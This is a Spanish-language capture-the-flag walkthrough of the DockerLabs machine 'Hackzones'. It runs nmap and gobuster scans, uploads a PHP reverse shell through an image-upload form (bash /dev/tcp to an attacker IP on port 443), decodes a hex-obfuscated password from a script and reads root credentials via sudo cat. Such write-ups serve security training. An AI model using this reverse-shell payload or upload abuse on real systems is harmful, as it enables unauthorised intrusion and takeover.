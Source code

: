 #MAQUINA #DOCKERLABS #MEDIO
#ABUSO_SUBIDA_ARCHIVOS 
<hr>

# RECONOCIMIENTO

Vamos a resolver **Hackzones** de la plataforma **DockerLabs**.

   ```bash

Máquina desplegada, su dirección IP es --> 172.17.0.2

```

Primero vamos a hacer un escaneo de puertos rápido:

```bash

nmap -sS --min-rate 5000 -vvv -n -Pn -p- 172.17.0.2 --open
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-17 10:16 CET
Initiating ARP Ping Scan at 10:16
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 10:16, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 10:16
Scanning 172.17.0.2 [65535 ports]
Discovered open port 80/tcp on 172.17.0.2
Discovered open port 53/tcp on 172.17.0.2
Discovered open port 22/tcp on 172.17.0.2
Completed SYN Stealth Scan at 10:16, 0.49s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.0000030s latency).
Scanned at 2025-02-17 10:16:07 CET for 1s
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
53/tcp open  domain  syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.67 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)


```

- **`--open`**: Muestra solo los puertos abiertos en la salida.
- **`-sS`**: Especifica un escaneo TCP SYN, que es más sigiloso que un escaneo de conexión completa.
- **`--min-rate 5000`**: Establece la tasa mínima de paquetes enviados a 5000 por segundo, haciendo que el escaneo sea más rápido.
- **`-vvv`**: Aumenta el nivel de verbosidad, proporcionando una salida más detallada durante el escaneo.
- **`-n`**: No resuelve DNS; esto evita retrasos por búsquedas de nombres.
- **`-Pn`**: Trata el objetivo como si estuviera en línea; omite el descubrimiento de hosts.
- **`-p-`**: Escanea todos los 65535 puertos en lugar de solo los más comunes.

**Conclusiones:** El ttl al ser 64 nos dice que es una máquina **Linux**. Además, vemos que tiene los puertos **80(HTTP)**, **22(SSH)** , **53(DNS)** abiertos.

Ahora vamos a hacer un escaneo con mayor detalle:

   ```bash

nmap -sCV -p22,53,80 172.17.0.2                           
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-17 10:17 CET
Nmap scan report for collections.dl (172.17.0.2)
Host is up (0.000014s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 8e:a2:56:38:e1:85:2f:21:2b:55:ec:29:5b:f8:63:d9 (ECDSA)
|_  256 0f:4b:38:fa:04:33:c7:01:5a:98:12:05:2d:42:cf:1a (ED25519)
53/tcp open  domain  ISC BIND 9.18.28-0ubuntu0.24.04.1 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.18.28-0ubuntu0.24.04.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: HackZones.hl - Seguridad para tu Empresa
|_http-server-header: Apache/2.4.58 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.35 seconds




```

```bash

nmap --script="http-enum" 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-17 10:17 CET
Nmap scan report for collections.dl (172.17.0.2)
Host is up (0.0000030s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.45 seconds


```

- **`-sC`**: Realiza un escaneo de scripts (Nmap Scripting Engine, NSE). Esto permite ejecutar scripts de `nmap` para obtener información adicional sobre los servicios detectados, como vulnerabilidades, configuraciones o detalles específicos de los mismos.
- **`-sV`**: Realiza la detección de versiones de servicios. Esto intenta identificar la versión exacta del software que está escuchando en un puerto abierto, lo que puede ayudar a determinar si hay vulnerabilidades conocidas.
- **`--script`**:  Ejecutar un script específico.

## HTTP (80)
Usando **gobuster** no vemos nada interesante, pero si hacemos virtual hosting (hackzones.hl) que aparece en el primer nmap, vemos cosas.

```bash

gobuster dir -u http://hackzones.hl/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x html,php,js,txt,png,jpg
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://hackzones.hl/
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              js,txt,png,jpg,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 860]
/uploads              (Status: 301) [Size: 314] [--> http://hackzones.hl/uploads/]
/upload.php           (Status: 200) [Size: 1377]
/dashboard.html       (Status: 200) [Size: 5671]
/authenticate.php     (Status: 302) [Size: 0] [--> index.html?error=1]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
Progress: 1543913 / 1543920 (100.00%)
===============================================================
Finished
===============================================================

```

Si nos metemos en el **dashboard**, y hacemos click en la foto de perfil de la izquierda podemos subir una nueva foto.

# EXPLOTACION

Vamos a subir una reverse shell y nos ponemos en escucha por el puerto 443 (**nc -nlvp 443**):

   ```bash
<?php

/**
* Plugin Name: test-plugin
* Plugin URI: https://www.your-site.com/
* Description: Test.
* Version: 0.1
* Author: your-name
* Author URI: https://www.your-site.com/
**/


	exec("/bin/bash -c 'bash -i > /dev/tcp/172.17.0.1/443 0>&1'");

?>

```

# ESCALADA PRIVILEGIOS

Al buscar un poco por los archivos vemos **/var/www/html/supermegaultrasecretfolder** y dentro tiene un secret.sh, que al traérnoslo a nuestra maquina y ejecutarlo, no da la contra de root.

```bash
cat prueba.sh           
#!/bin/bash

if [ "$(id -u)" -ne 0 ]; then
  echo "Este script debe ser ejecutado como root."
  exit 1
fi

p1=$(echo -e "\x50\x61\x73\x73\x77\x6f\x72\x64") 
p2="\x40"                                       
p3="\x24\x24"                                   
p4="\x21\x31\x32\x33"                           

echo -e "${p1}${p2}${p3}${p4}"

/bin/bash prueba.sh
Password@$$!123

```

YA ESTAMOS COMO MRROBOT

Vemos si el usuario tiene permisos SUDO:
   ```bash
mrrobot@5d0937a54a71:~$ sudo -l
Matching Defaults entries for mrrobot on 5d0937a54a71:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mrrobot may run the following commands on 5d0937a54a71:
    (ALL : ALL) NOPASSWD: /usr/bin/cat

```

Vemos **cat** con permisos SUDO y un archivo raro en /opt :

   ```bash
mrrobot@5d0937a54a71:/opt$ sudo cat SistemUpdate 
Reading package lists... Done
Building dependency tree       
Reading state information... Done
Calculating upgrade... Done
The following packages will be upgraded:
  libc-bin libc-dev-bin libc6 libc6-dev libc6-i386
5 upgraded, 0 newly installed, 0 to remove and 0 not upgraded.
Need to get 8,238 kB of archives.
After this operation, 1,024 B of additional disk space will be used.
Do you want to continue? [Y/n] y
Get:1 http://archive.ubuntu.com/ubuntu focal-updates/main amd64 libc6 amd64 2.31-0ubuntu9.9 [2,737 kB]
Get:2 http://archive.ubuntu.com/ubuntu focal-updates/main amd64 libc-bin amd64 2.31-0ubuntu9.9 [635 kB]
Get:3 http://archive.ubuntu.com/ubuntu focal-updates/main amd64 libc6-dev amd64 2.31-0ubuntu9.9 [2,622 kB]
Get:4 http://archive.ubuntu.com/ubuntu focal-updates/main amd64 libc-dev-bin amd64 2.31-0ubuntu9.9 [189 kB]
Fetched 8,238 kB in 2s (4,119 kB/s)
Extracting user root:rooteable from packages: 50% 
Extracting templates from packages: 100%
Preconfiguring packages ...
(Reading database ... 275198 files and directories currently installed.)
Preparing to unpack .../libc6_2.31-0ubuntu9.9_amd64.deb ...
Unpacking libc6:amd64 (2.31-0ubuntu9.9) over (2.31-0ubuntu9.8) ...
Preparing to unpack .../libc-bin_2.31-0ubuntu9.9_amd64.deb ...
Unpacking libc-bin (2.31-0ubuntu9.9) over (2.31-0ubuntu9.8) ...
Preparing to unpack .../libc6-dev_2.31-0ubuntu9.9_amd64.deb ...
Unpacking libc6-dev:amd64 (2.31-0ubuntu9.9) over (2.31-0ubuntu9.8) ...
Preparing to unpack .../libc-dev-bin_2.31-0ubuntu9.9_amd64.deb ...
Unpacking libc-dev-bin (2.31-0ubuntu9.9) over (2.31-0ubuntu9.8) ...
Setting up libc6:amd64 (2.31-0ubuntu9.9) ...
Setting up libc-bin (2.31-0ubuntu9.9) ...
Setting up libc-dev-bin (2.31-0ubuntu9.9) ...
Setting up libc6-dev:amd64 (2.31-0ubuntu9.9) ...
Processing triggers for libc-bin (2.31-0ubuntu9.9) ...

```

**YA ESTAMOS COMO ROOT.